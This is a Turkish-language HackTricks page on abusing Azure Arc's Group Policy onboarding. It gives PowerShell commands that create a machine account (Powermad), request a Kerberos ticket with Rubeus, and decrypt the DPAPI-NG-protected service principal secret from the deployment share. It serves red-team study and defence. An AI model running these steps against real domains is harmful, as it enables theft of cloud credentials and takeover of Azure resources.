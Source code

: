 # Az - Arc vulnerable GPO Deploy Script

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

### Identifying the Issues

Azure Arc, yeni iç sunucuların (katılmış alan sunucuları) Azure Arc'a Grup Politika Nesnesi yöntemiyle entegrasyonuna olanak tanır. Bunu kolaylaştırmak için Microsoft, onboarding prosedürünü başlatmak için gerekli olan bir dağıtım araç seti sağlar. ArcEnableServerGroupPolicy.zip dosyasının içinde şu betikler bulunur: DeployGPO.ps1, EnableAzureArc.ps1 ve AzureArcDeployment.psm1.

DeployGPO.ps1 betiği çalıştırıldığında, aşağıdaki işlemleri gerçekleştirir:

1. Yerel alanda Azure Arc Sunucuları Onboarding GPO'sunu oluşturur.
2. EnableAzureArc.ps1 onboarding betiğini, onboarding süreci için oluşturulan belirlenen ağ paylaşımına kopyalar; bu paylaşım ayrıca Windows yükleyici paketini de içerir.

Bu betiği çalıştırırken, sistem yöneticileri iki ana parametre sağlamalıdır: **ServicePrincipalId** ve **ServicePrincipalClientSecret**. Ayrıca, alan, paylaşımı barındıran sunucunun FQDN'si ve paylaşım adı gibi diğer parametreler de gereklidir. Kiracı kimliği, kaynak grubu ve diğer gerekli bilgilerin de betiğe sağlanması gerekir.

Belirtilen paylaşımda AzureArcDeploy dizininde DPAPI-NG şifrelemesi kullanılarak şifrelenmiş bir gizli anahtar oluşturulur. Şifrelenmiş gizli anahtar, encryptedServicePrincipalSecret adlı bir dosyada saklanır. Bunun kanıtı, DeployGPO.ps1 betiğinde, şifrelemenin $descriptor ve $ServicePrincipalSecret girdileri ile ProtectBase64 çağrılarak gerçekleştirildiği yerde bulunabilir. Tanımlayıcı, Alan Bilgisayarı ve Alan Denetleyici grup SID'lerinden oluşur ve bu, ServicePrincipalSecret'ın yalnızca Alan Denetleyicileri ve Alan Bilgisayarları güvenlik grupları tarafından şifresinin çözülebileceğini garanti eder; bu, betik yorumlarında belirtilmiştir.
```powershell
# Encrypting the ServicePrincipalSecret to be decrypted only by the Domain Controllers and the Domain Computers security groups
$DomainComputersSID = "SID=" + $DomainComputersSID
$DomainControllersSID = "SID=" + $DomainControllersSID
$descriptor = @($DomainComputersSID, $DomainControllersSID) -join " OR "
Import-Module $PSScriptRoot\AzureArcDeployment.psm1
$encryptedSecret = [DpapiNgUtil]::ProtectBase64($descriptor, $ServicePrincipalSecret)
```
### Exploit

Aşağıdaki koşullara sahibiz:

1. İç ağa başarıyla sızdık.
2. Active Directory içinde bir bilgisayar hesabı oluşturma veya kontrol etme yeteneğine sahibiz.
3. AzureArcDeploy dizinini içeren bir ağ paylaşımını keşfettik.

AD ortamında bir makine hesabı elde etmenin birkaç yöntemi vardır. En yaygın olanlardan biri makine hesabı kotasını istismar etmektir. Diğer bir yöntem, savunmasız ACL'ler veya çeşitli diğer yanlış yapılandırmalar aracılığıyla bir makine hesabını tehlikeye atmaktır.
```powershell
Import-MKodule powermad
New-MachineAccount -MachineAccount fake01 -Password $(ConvertTo-SecureString '123456' -AsPlainText -Force) -Verbose
```
Bir makine hesabı elde edildikten sonra, bu hesapla kimlik doğrulamak mümkündür. Ya netonly bayrağı ile runas.exe komutunu kullanabiliriz ya da Rubeus.exe ile pass-the-ticket yöntemini kullanabiliriz.
```powershell
runas /user:fake01$ /netonly powershell
```

```powershell
.\Rubeus.exe asktgt /user:fake01$ /password:123456 /prr
```
Bellek içinde bilgisayar hesabımız için TGT'ye sahip olarak, hizmet ilkesi gizli anahtarını şifre çözmek için aşağıdaki betiği kullanabiliriz.
```powershell
Import-Module .\AzureArcDeployment.psm1

$encryptedSecret = Get-Content "[shared folder path]\AzureArcDeploy\encryptedServicePrincipalSecret"

$ebs = [DpapiNgUtil]::UnprotectBase64($encryptedSecret)
$ebs
```
Alternatif olarak, [SecretManagement.DpapiNG](https://github.com/jborean93/SecretManagement.DpapiNG) kullanabiliriz.

Bu noktada, şifrelenmişServicePrincipalSecret dosyasıyla aynı ağ paylaşımında saklanan ArcInfo.json dosyasından Azure'a bağlanmak için gereken kalan bilgileri toplayabiliriz. Bu dosya, TenantId, servicePrincipalClientId, ResourceGroup ve daha fazlası gibi ayrıntıları içerir. Bu bilgilerle, tehlikeye atılmış service principal olarak kimlik doğrulamak için Azure CLI kullanabiliriz.

## Referanslar

* [https://xybytes.com/azure/Abusing-Azure-Arc/](https://xybytes.com/azure/Abusing-Azure-Arc/)

{% hint style="success" %}
AWS Hacking'i öğrenin ve pratik yapın:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
GCP Hacking'i öğrenin ve pratik yapın: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks'i Destekleyin</summary>

* [**abonelik planlarını**](https://github.com/sponsors/carlospolop) kontrol edin!
* **💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) katılın ya da **Twitter'da** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**'i takip edin.**
* **Hacking ipuçlarını paylaşmak için [**HackTricks**](https://github.com/carlospolop/hacktricks) ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github reposuna PR gönderin.**

</details>
{% endhint %}
